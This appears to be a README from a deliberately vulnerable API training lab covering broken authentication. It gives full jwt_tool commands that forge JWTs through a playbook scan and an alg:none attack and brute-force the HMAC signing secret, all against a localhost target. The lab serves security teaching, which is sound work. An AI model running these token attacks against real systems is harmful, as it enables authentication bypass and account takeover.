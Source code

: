 # Insecure API

## API2:2023 Broken Authentication

We try to forge a JWTs using several well known attack types (using the playbook mode of the JWT_Tool):

Login using http://localhost:9090/api/v1/users/login
and specify the credentials `bruce.wayne@example.com / wayne` to log in and grab the returned JWT

```shell
export TOKEN=<the JWT you just grabbed>
```

Now try this playbook attack with the JWT you grabbed to find any vulnerabilities at http://localhost:9090/api/v1/partner:

```shell
jwt_tool -t http://localhost:9090/api/v1/partner -rh "Authorization: Bearer $TOKEN" -cv "Here is your data for partner bruce.wayne@example.com (Bruce Wayne)" -M pb -np
```

After performing the playbook you see which attacks seemed to be successful.
Then you might try a specific attack type separately, like the exploit specifying the `none` signature algorithm as `alg:none`:

```shell
jwt_tool -t http://localhost:9090/api/v1/partner -rh "Authorization: Bearer $TOKEN" -cv "Here is your data for partner bruce.wayne@example.com (Bruce Wayne)" -X a -np
```

In our case this is successful:

![JWT_Tool](images/jwt_tool_attack.png)

Finally try to brute force the JWT to find out the secret for signing a JWT using the symmetric HMAC signature algorithm
`jwt_tool $TOKEN -C -d jwt.secrets.list`

The secrets list was just grabbed from https://github.com/wallarm/jwt-secrets.

If you want to learn more about API Security (beyond JWTs) then look into the corresponding [API-Security GitHub Repo](https://github.com/andifalk/api-security).